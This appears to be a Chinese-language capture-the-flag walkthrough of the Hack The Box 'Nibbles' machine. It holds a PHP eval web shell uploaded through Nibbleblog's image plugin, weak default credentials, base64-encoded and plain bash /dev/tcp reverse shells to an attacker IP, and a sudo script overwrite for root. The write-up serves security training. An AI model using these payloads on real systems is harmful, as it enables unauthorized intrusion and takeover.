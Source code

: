 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Nibbles"
linktitle: "Nibbles"
date: 2022-05-07T14:53:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.75
```

![](image/image_S8fShlklmf.png)

80端口

![](image/image_LRUZ10AG3e.png)

查看源码

![](image/image_2-n_AHFanj.png)

Nibbleblog

![](image/image_7sMftttgTh.png)

```bash
https://seclists.org/search.html?q=NibbleBlog
```

4.0.3存在代码执行，但是不知道靶机是什么版本

![](image/image_iLL-NEXKkt.png)

```bash
https://seclists.org/fulldisclosure/2015/Sep/5
```

![](image/image_Dn_MTm0_N4.png)

根据描述是需要先登录的。

![](image/image_mRXR5SsLxM.png)

弱口令,密码就是题目名称小写。

admin/nibbles

找到上传图片的位置，安装插件

![](image/image_Pi6Fa77ArJ.png)

上传shell.php

```php
<?php @eval($_POST['shell']);?>
```

![](image/image_DaOAYYB7wc.png)

报错，但是文件上传成功

![](image/image_Ml1fWjtQdb.png)

上传文件的位置，文件被重命名，但是后缀没变

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/
```

![](image/image_YC2fT6dlNr.png)

执行命令成功

![](image/image_gYjOOUsXEn.png)

反弹shell

```bash
system("bash+-c+'{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNi4yLzIzMzMzIDA%2bJjE%3d}|{base64,-d}|{bash,-i}'");


#decode

bash -i >& /dev/tcp/10.10.16.2/23333 0>&1

```

![](image/image_hD2p6yT1Pn.png)

也可以直接用蚁剑工具

![](image/image_Cjz_iEd-uu.png)

![](image/image_1uGa1pjk7C.png)

```php
#whoami 当前用户
#id 当前用户权限
#sudo -l 查看有root权限的程序
```

提权

![](image/image_g9rYrfTk5y.png)

发现  /home/nibbler下有个压缩包，解压

![](image/image_KMMZdTA5P-.png)

直接覆盖monitor.sh的内容

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.2/24444 0>&1"'>monitor.sh
```

执行脚本

```bash
sudo ./monitor.sh
```

获得root权限

![](image/image_tWDcOvXXSL.png)
